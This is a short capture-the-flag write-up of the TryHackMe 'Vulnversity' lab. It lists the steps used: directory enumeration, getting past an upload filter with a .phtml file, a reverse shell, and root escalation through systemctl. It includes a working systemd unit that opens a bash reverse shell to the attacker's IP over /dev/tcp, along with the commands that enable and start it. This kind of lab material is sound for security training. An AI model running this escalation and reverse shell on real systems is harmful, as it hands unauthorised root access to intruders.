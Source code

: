 # 39. Vulnversity 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | linux

**Notes :**




## Gaining Access 😉
- gobuster directory enum with common.txt
- got a /internal directory which allows to upload files
- .php filtered so, used .phtml to bypass
- got a revshell



## Maintaining Access 🥷
- find suid permission files [[#Important commands 🔥]]
- systemctl found miconfigured [[#Important commands 🔥]]
- systemctl start root


## Important commands 🔥
1. suid find 
	```
	find / -user root -perm -4000 -exec ls -ldb {} \;
	```
2. systemctl
	```
	[Unit]
	Description=roooooooooot

	[Service]
	Type=simple
	User=root
	ExecStart=/bin/bash -c 'exec bash -i &>/dev/tcp/10.9.229.254/4445 <&1'

	[Install]
	WantedBy=multi-user.target
	```
	saved as root.service
3. enable service
	```
	/bin/systemctl enable /var/tmp/root.service
	/bin/systemctl start root
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- for bypassing php extesion filter, we can use `.phtml` also
- systemctl misconfigured privilege escalation


--------------------------------
**By Nibras Muhammed** 🤓🖥️